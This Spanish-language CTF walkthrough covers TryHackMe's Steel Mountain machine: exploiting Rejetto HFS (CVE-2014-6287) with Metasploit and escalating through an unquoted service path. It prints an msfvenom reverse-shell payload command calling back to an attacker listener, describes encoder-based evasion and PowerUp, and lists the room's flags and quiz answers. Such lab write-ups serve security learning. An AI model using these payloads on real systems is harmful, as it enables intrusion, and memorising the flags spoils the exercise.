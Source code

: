 # Máquina Steel Mountain

Dificultad --> Medio-Dificil 

Instrucciones --> **Para poder resolver esta máquina tienes que registrarte en la página de TryHackMe y buscarla por el nombre de Steel Mountain**

'

-------------------------------------------------------------------------------------------------------------------------------------------------------------------

'

## 1.Reconocmiento

Escaneando puertos y sus versiones utilizando el comando de nmap con diferentes parámetros


![image](https://github.com/user-attachments/assets/1ad02628-b792-4046-8c68-64e0cdf76c14)


![image](https://github.com/user-attachments/assets/32314d7a-703c-480a-b5a8-a60894c497b1)


Buscamos sus versiones


![image](https://github.com/user-attachments/assets/8d94a0b4-aba3-4d7d-b5b3-1d8631e90ebb)


Convertimos el archivo que se nos genero para poder visualizarlo mejor con el siguiente comando **--> xsltproc pc.xml -o pc.html <--** y luego lo abrimos con el navegador


![image](https://github.com/user-attachments/assets/20517a9e-b2c8-41ce-815a-f715c1af3237)


![image](https://github.com/user-attachments/assets/53650fa0-093c-4d9c-92fa-c1e813c0c5a6)



### Resumen de la Información Obtenida

|IP             | Sistema OPerativo            | Puertos/Servicios                            | 
|:------------: |:----------------------------:| :-------------------------------------------:| 
| 10.10.89.218  |Windows Server 2012 x64-based | 80  http Microsoft-IIS/8.5                   |
|               |                              | 135 msrpc                                    |
|               |                              | 139 netbios-ssn                              |
|               |                              | 445 microsoft-ds/Windows Server 2008 R2-2012 |
|               |                              | 3389 ms-wbt-server                           |
|               |                              | 5985 http                                    |
|               |                              | 8080 http/file server 2.3                    |


## 2. Análisis de Vulnerabilidades / Debilidades

Realizamos un Fuzzing


![image](https://github.com/user-attachments/assets/cd6951ad-7dd5-4523-a4e0-4566dbd5a736)


En el reconocimiento encontramos que tenemos el puerto 8080 abierto así que procedemos abrir la ip con ese puerto


![image](https://github.com/user-attachments/assets/1fd1e9b8-5552-48fc-9121-0c68c9cf6ceb)


Como podemos observar en la sección de server information nos sale que es un Http File Server 2.3 en forma de un link si lo abrimos nos dirige a una pagina llamada **rejetto**


![image](https://github.com/user-attachments/assets/9145d40b-8509-4c4c-85bb-d20471c743a4)


Buscamos vulnerabilidad a rejetto


![image](https://github.com/user-attachments/assets/958df400-b4d3-4a2c-b4c2-3ee47721b7f9)



## 3. Explotación


Abrimos Metasploit con el comando -->**msfconsole**<-- y buscamos la vulnerabilidad


![image](https://github.com/user-attachments/assets/8e7da341-5721-44f1-8e8b-bb31567b1284)


Modificamos los parámetros


![image](https://github.com/user-attachments/assets/14159ff1-52cc-4193-81ce-d84837931283)


![image](https://github.com/user-attachments/assets/a560af1a-a4d9-4ac1-90cc-03146888ce82)


Corremos el exploit y una ves obtenida una sesión de meterpreter ejecutamos el comando --> **shell**



![image](https://github.com/user-attachments/assets/a23d7d9f-f087-46fb-8cba-79acb7f00d90)


Encontramos el contenido deel archivo user.txt 🚩


![image](https://github.com/user-attachments/assets/b7401654-7e69-463b-b4aa-06a9389b7b2d)


## 4. Escalación de privilegios

Ejecutamos el siguiente comando con msfvenom para realizar una Shell reverse

msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.11.86.141 LPORT=4443 -f exe -o Advanced.exe


![image](https://github.com/user-attachments/assets/251064ae-618a-44b9-a822-64cfa6da47df)


Montamos nuestra maquina como servidor


![image](https://github.com/user-attachments/assets/0e45fa38-77f2-4ecd-82e9-53a28bde7a8e)


Descargamos nuestro archivo y detenemos el servicio AdvancedSystemCareService9


![image](https://github.com/user-attachments/assets/c64351fb-5cb0-4404-8eb7-5ac77f839798)


Activamos nuestro netcat


![image](https://github.com/user-attachments/assets/8fba1783-c185-4749-a550-b4a7bc0f7de2)


Activamos el servicio AdvancedSystemCareService9


![image](https://github.com/user-attachments/assets/7a538864-39ea-4437-bdd8-da3997fdbcdb)


Una vez activado el servicio de AdvancedSystemCareService9 vemos que en nuestra maquina donde nos pusimos modo escucha se nos conecta, ahora procedemos a buscar el archivo root.txt


![image](https://github.com/user-attachments/assets/dc1f8056-4622-4951-b3dc-639efe049886)


![image](https://github.com/user-attachments/assets/494786e3-582d-4c64-b6f4-3be8a04c83b1)



## 4.Banderas 🏁

|user.txt | b04763b6fcf51fcd7c13abc7db4fd365 |
|:-------:|:--------------------------------:|
|root.txt | 9af5f314f57607c00fd09803a587db80 |



## 5.Extra 🚨

Acá las respuesta del cuestionario de TryHackMe 

•¿Quién es la empleada del mes?
Bill Harper

•Escanee la máquina con nmap. ¿En qué otro puerto se ejecuta un servidor web?
8080

•Eche un vistazo al otro servidor web. ¿Qué servidor de archivos se está ejecutando?
Rejetto http file server

•¿Cuál es el número CVE para explotar este servidor de archivos?
2014-6287

•Utilice Metasploit para obtener un shell inicial. ¿Qué es la bandera de usuario?
b04763b6fcf51fcd7c13abc7db4fd365

•Preste mucha atención a la opción CanRestart que está configurada como verdadera. ¿Cuál es el nombre del servicio que aparece como una vulnerabilidad de ruta de servicio sin comillas?
AdvancedSystemCareService9

•¿Qué es la bandera root?
9af5f314f57607c00fd09803a587db80

•El formato es el comando "powershell -c" aquí
powershell -c Get-Service


### Entrando a la maquina destino utilizando msfvenom con shikata ga nai

Creamos el archivo Advanced2.exe con los siguientes parámetro: 
 
--> -a para indicar la arquitectura del sistema operativo 
 
--> -p para indicar el payload
 
--> lhost que seria la ip de nuestra máquina
 
--> lport que sería el puerto por donde vamos a escuchar
 
--> -e para indicar el encoder a utilizar
 
--> -i para indicar el numero de interacciones que va tener
 
--> -f para indicar que será un ejecutable
 
--> – o para indicar el parámetro de salida


![image](https://github.com/user-attachments/assets/5cf72075-9e1d-488d-8728-4440291af6ea)


Descargamos el archivo en la máquina destino


![image](https://github.com/user-attachments/assets/742e0b90-94e0-44df-b237-c55abe8dd0af)


Activamos el netcat en el puerto 4443


![image](https://github.com/user-attachments/assets/83783d14-30a0-4aac-b257-5ea5dda7e416)


Ejecutamos

![image](https://github.com/user-attachments/assets/222224d3-975d-40a3-a1dc-02a691b20465)


Logramos entrar


![image](https://github.com/user-attachments/assets/6327b2e2-d5d0-4b20-a8eb-a018dc5b7c19)



### Aplicación de la Herramienta PowerUp.ps1

Descargamos desde nuestra máquina como servidor nuestro archivo PowerUp en la máquina destino


![image](https://github.com/user-attachments/assets/4fe2649c-723f-4327-badf-74088685acbc)


Regresamos a meterprete y ejecutamos load powershell


![image](https://github.com/user-attachments/assets/5c901326-68a3-4b17-b0c7-b513d1b9e87f)


Ejecutamos los siguientes comando e invocamos la herramienta



![image](https://github.com/user-attachments/assets/d0e78e49-e60e-4ccd-88ab-378ab6d820b2)



Mediante PowerUp se comprueban servicios vulnerables, aplicaciones susceptibles a DLL Hijacking, configuración del registro y otras comprobaciones.


![image](https://github.com/user-attachments/assets/2e4a24ae-8055-4983-a13d-2ab4de04cd0f)


![image](https://github.com/user-attachments/assets/7d0dacf0-449b-423c-8c43-3cffd76999a7)



